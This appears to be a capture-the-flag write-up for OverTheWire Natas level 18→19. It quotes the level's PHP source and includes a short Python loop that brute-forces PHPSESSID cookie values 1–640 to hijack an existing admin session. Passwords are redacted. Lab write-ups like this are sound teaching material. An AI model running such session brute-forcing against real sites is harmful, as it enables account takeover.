






# Natas — Level 18 → 19

**Category:** OverTheWire / Natas  
**Difficulty:** Hard  
**Date:** 2026-08-26

## Goal

An admin login form, with the goal spelled out directly:

    Please login with your admin account to retrieve credentials for natas19.

## Solution

The source showed two things worth noting. First, the "become admin by username" path is dead:

    $maxid = 640; // 640 should be enough for everyone

    function isValidAdminLogin() {
        if($_REQUEST["username"] == "admin") {
            /* This method of authentication appears to be unsafe and has been disabled for now. */
            //return 1;
        }
        return 0;
    }

    function createID($user) {
        global $maxid;
        return rand(1, $maxid);
    }

Second, and more important, the login flow itself:

    if(my_session_start()) {
        print_credentials();
        $showform = false;
    } else {
        if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
            session_id(createID($_REQUEST["username"]));
            session_start();
            $_SESSION["admin"] = isValidAdminLogin();
            ...
            print_credentials();
        }
    }

`createID()` completely ignores the username and just returns `rand(1, 640)` — the session ID handed out on login has nothing to do with the credentials submitted. More importantly, `my_session_start()` runs on *every* page load, before any login attempt — if it finds an existing session with `$_SESSION["admin"]` already true, it prints the credentials immediately, no login needed at all. Since session IDs only span 1–640, that's a small enough range to just try every possible `PHPSESSID` cookie value directly against the page and see which ones land on an already-admin session:

    for session_id in range(1, 641):
        cookies = {"PHPSESSID": str(session_id)}
        r = requests.get(url, auth=auth, cookies=cookies)

        if "You are an admin" in r.text:
            print(f"[+] Admin session found: {session_id}")
            print(r.text)
            break

        print(f"[-] Tried session {session_id}")

It didn't take long to hit one:

    [-] Tried session 117
    [-] Tried session 118
    [+] Admin session found: 119

    You are an admin. The credentials for the next level are:
    Username: natas19
    Password: [REDACTED]

## Result

    Username for natas19: natas19
    Password for natas19: [REDACTED]

## Key Takeaway

A login form is only as strong as its weakest path to the "logged in" state — here the actual password check was already disabled, but the real hole was that session IDs were both attacker-suppliable (via the `PHPSESSID` cookie) and drawn from a space of only 640 possible values. Since `my_session_start()` trusted any pre-existing session unconditionally, brute-forcing the entire ID space was enough to land on a session someone else had already turned into an admin session, with no valid credentials needed at all.
